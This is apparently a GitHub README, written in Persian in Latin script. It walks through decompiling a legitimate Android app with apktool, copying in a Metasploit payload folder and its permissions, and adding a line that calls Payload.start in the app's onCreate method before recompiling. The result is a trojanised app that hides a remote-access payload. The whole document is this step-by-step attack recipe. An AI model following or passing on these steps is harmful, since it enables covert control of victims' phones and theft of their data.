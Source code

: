 ## Decompile and Recompile An android APK 🧰

Ghasd darim yek app ra decompile karde va pas az tazrigh metasploit dobare recompile konim 

$ bad az sakht metasploit tebgh ravesh gofte shode dar `Android-MetaSploit-L1` 2 kar zer ra bayad anjam dahim

```bash
apktool d /home/kali/Dekstop/rat.apk
```

```bash
apktool d /home/kali/Dekstop/app.apk
```

har 2 app ra decompile mikonim


## Install apktool ⬇️

abzar "apktool" b sorat pishfarz dar kali linux nasb nist va b shekl zer eghdam b nasb konid

```bash
sudo apt install apktool
```

$ bar roye joft poshe haye decompile shode app ha rast click karde va gozine `open as Root` ra mizanim ta baz shavand

### 2 kar ra bayad anjam dahim

1. **Jaygozine metasploit :** Poshe "metasploit" ra az app alode dar address `smali > com > metasploit` dar hamin address dar app asli jaygozin mikonim
 
 
2. **Edit AndroidManifest.xml :** Bar roye har 2 file `AndroidManifext.xml` click rast karde va `Open With "MousePad" ra mizanim va karhaye zer ra anjam midahim

- copy ebeart ro b ro az "rat" b "app"        
`<uses-permission android:""/>`

- search `activity android` va dar hamon khat ebarat `android:name=` ro b rosh ye hamchin chizi hast : `com.google.android.gms.common.api.GoogleApiActivity`
- `com.google.android.gms.common.api.GoogleApiActivity` en masir ro dar "app asli" peyda mikonm
example : Poshe smali > Poshe com > Poshe google > Poshe android > Poshe gms > Poshe common > ..... > Akharesh b ye "file" mirsim 
- Dakhel file migardim donbal ebarat `onCreate(Landroid/os/Bundle;)v` Agar chand ta bood , On k avvalesh `method` Dare
- Ye Enter mizanim va khat badi en `invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V` ro ezafe mikonim


Dige ba "rat" kari nadarim va "app asli" ro Recompile mikonim va Tamam ....

```bash
apktool b /home/kali/Dekstop/app.apk
